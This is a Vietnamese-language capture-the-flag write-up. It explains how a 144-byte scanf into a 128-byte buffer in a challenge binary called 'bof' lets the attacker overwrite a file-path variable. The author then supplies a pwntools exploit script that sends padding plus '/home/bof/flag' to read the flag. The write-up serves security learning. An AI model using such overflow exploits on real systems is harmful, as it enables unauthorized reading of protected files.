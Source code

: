 # Decription
![](images/bof.png)

# Source
Bài không cho chúng ta source mà chỉ có binary. Dùng ida để dịch ngược.

Main Func:
![](images/main.png)
Read_cat Func:
![](images/read_cat.png)

# Problem
```c
Ta dễ thấy trong hàm main v4 được khai báo 128 bytes mà scanf lại nhập tới 144 bytes.
-> v5 bị ghì đè.

Mà ta thấy read_cat sẽ mở v5 đọc và in nó ra.

Hơn nữa trong mô tả ta thấy rằng flag ở trong /home/bof/flag.

-> ghì đè v5 thành /home/bof/flag.
```
# Solve
```c
payload = b'a'*128
payload +=b'/home/bof/flag'
```
![](images/test.png)

Hmm. Tôi sẽ tạo 1 file trong /home/bof/flag trên máy local để test.

![](images/flagfake.png)

Chạy lại script:
![](images/flag.png)

Rồi. Connect lên server là lấy flag thật.

# Full script

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('bof', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''


        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
# GDB()

payload = b'a'*128
payload +=b'/home/bof/flag'

sl(payload)

p.interactive()
```
